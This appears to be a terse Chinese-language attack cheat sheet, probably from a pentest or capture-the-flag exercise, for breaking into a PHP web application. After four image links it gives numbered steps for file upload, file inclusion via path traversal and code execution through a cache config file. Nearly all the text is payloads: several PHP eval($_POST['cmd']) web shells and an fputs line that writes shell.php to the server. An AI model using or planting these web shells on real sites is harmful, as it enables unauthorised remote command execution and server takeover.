




 

1、文件上传 

2、新建文件

```
<?php eval($_POST['cmd']);?>
```



3、文件包含漏洞

```
 ../index.html
```



4、代码执行 

```
data\config.cache.inc.php
```

php写入文件代码

```
fputs(fopen("shell.php","a"),"<?php phpinfo();?>")
${eval($_POST[cmd])}
<?php eval($_POST[cmd]);?>
```

